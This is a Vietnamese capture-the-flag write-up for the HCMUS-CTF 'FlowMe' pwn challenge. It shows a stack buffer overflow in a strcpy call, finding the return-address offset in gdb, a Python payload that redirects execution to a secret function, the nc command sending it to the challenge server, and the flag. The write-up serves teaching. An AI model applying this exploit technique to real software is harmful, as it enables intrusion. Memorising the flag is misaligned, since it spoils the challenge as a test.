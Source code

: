 # PWN - FlowMe

-   Đoán bài này thuộc dạng **buffer overflow**.

-   Để ý hàm `authentication`, chắc là buffer overflow xảy ra ở đây.

    ```
    char password_buffer[256];
    strcpy(password_buffer, password);
    ```

-   Dùng gdb debug, đặt break point ở cuối hàm authentication (ngay dòng return).

-   Chạy thử chương trình với một input thiệt là dài, như này:

    ```
    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
    ```

-   Khi chương trình chạy hết hàm `authentication`, word đầu tiên của stack (thanh ghi rsp) có giá trị như sau:

    ```
    0x4f4f4f4f
    ```

-   Đây là 4 chữ O, tức là đoạn **OOOO** trong input viết đè lên vùng nhớ chứa địa chỉ trả về. Ta cần đổi **OOOO** thành địa chỉ vùng nhớ của hàm `secret_funtion` (0x4007ea). Chương trình python để làm điều đó:

    ```python
    import struct

    padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
    eip = struct.pack("I", 0x4007ea)
    payload = "\xCC"*4
    print(padding+eip+payload)
    ```

-   Ghi kết quả ra file và hường thụ thành quả:

    ```
    python flowme.py > flowme.txt
    nc 159.65.13.76 33103 < flowme.txt
    ```

Flag: `HCMUS-CTF{You_have_to_learn_basic_stack_based_buffer_overflow}`
